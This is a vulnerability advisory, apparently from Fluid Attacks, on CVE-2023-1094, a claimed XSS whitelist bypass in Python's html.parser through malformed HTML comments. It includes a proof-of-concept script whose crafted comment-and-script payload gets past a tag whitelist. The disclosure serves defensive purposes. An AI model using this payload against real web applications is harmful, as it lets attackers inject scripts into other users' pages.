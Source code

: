 ```yaml
---
slug: advisories/crankdat/
title: XSS in html.parser library
authors: Carlos Bello
writer: cbello
codename: crankdat
product: XSS in html.parser library
date: 2023-03-06 12:00 COT
cveid: CVE-2023-1094
severity: 5.3
description: Cross-Site   Scripting    in html.parser   library
keywords: Fluid Attacks, Security, Vulnerabilities, XSS, Python, The Python Standard Library, HTML Parser
banner: advisories-bg
advise: yes
template: maskedAdvisory
encrypted: yes
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | XSS in html.parser library                                         |
| **Code name**         | [Crankdat](https://en.wikipedia.org/wiki/Crankdat)                 |
| **Product**           | html.parser                                                        |
| **Affected versions** | Version 0.0.0                                                      |
| **State**             | Public                                                             |
| **Release date**      | 2023-03-06                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Stored cross-site scripting (XSS)                                                                                           |
| **Rule**              | [010. Stored cross-site scripting (XSS)](https://docs.fluidattacks.com/criteria/vulnerabilities/010)                        |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:L/A:N                                                                                |
| **CVSSv3 Base Score** | 5.3                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2023-1094](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-1094)                                               |

## Description

The library `html.parser` allows an attacker to bypass any whitelist
of HTML tags and attributes that seek to mitigate XSS. This is possible
because the application does not correctly parse the HTML comments in the
user input.

## Vulnerability

This vulnerability occurs because the application does not correctly parse
the HTML comments in the user input.

## Exploitation

In this scenario a developer parses the HTML entered by the user to validate
it with a whitelist of tags and attributes. This is to prevent XSS attacks.

In this case we see how we can bypass a security check of this type,
thanks to the fact that the parser does not parse the HTML comments
properly.

### POC.py

```python
from html.parser import HTMLParser
from html.entities import name2codepoint

class MyHTMLParser(HTMLParser):
    def handle_starttag(self, tag, attrs):
        print("Start tag:", tag)
        # Whitelist Tags
        print("Invalid tag:",tag != "h1")
        for attr in attrs:
            # Whitelist Attr
            print("attr:", attr)
            print("Invalid attr:",attr != "alt")

    def handle_endtag(self, tag):
        print("End tag  :", tag)

    def handle_data(self, data):
        print("Data     :", data)

    def handle_comment(self, data):
        print("Comment  :", data)

    def handle_entityref(self, name):
        c = chr(name2codepoint[name])
        print("Named ent:", c)

    def handle_charref(self, name):
        if name.startswith('x'):
            c = chr(int(name[1:], 16))
        else:
            c = chr(int(name))
        print("Num ent  :", c)

    def handle_decl(self, data):
        print("Decl     :", data)

parser = MyHTMLParser()
parser.feed('<!--!> <h1 value="--!><script>alert(document.domain)</script>')
# HTML is safe, we can proceed
```

### Evidence of exploitation

![html-parser-exploit](https://user-images.githubusercontent.com/51862990/221944716-670a1bd0-8990-44d3-beb4-5c67d4094dbd.gif)

### Expected behavior

![html-parser-safe](https://user-images.githubusercontent.com/51862990/221944821-4acbe9e5-d244-41d8-b772-c2f6109820ac.gif)

## Our security policy

We have reserved the ID CVE-2023-1094 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: html.parser 0.0.0

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/python/cpython/>

**XSS in golang's net/html library** <https://www.youtube.com/watch?v=H1TVk3HhL9E/>

## Timeline

<time-lapse
  discovered="2023-02-28"
  contacted="2023-02-28"
  replied="2023-02-28"
  confirmed=""
  patched=""
  disclosure="">
</time-lapse>
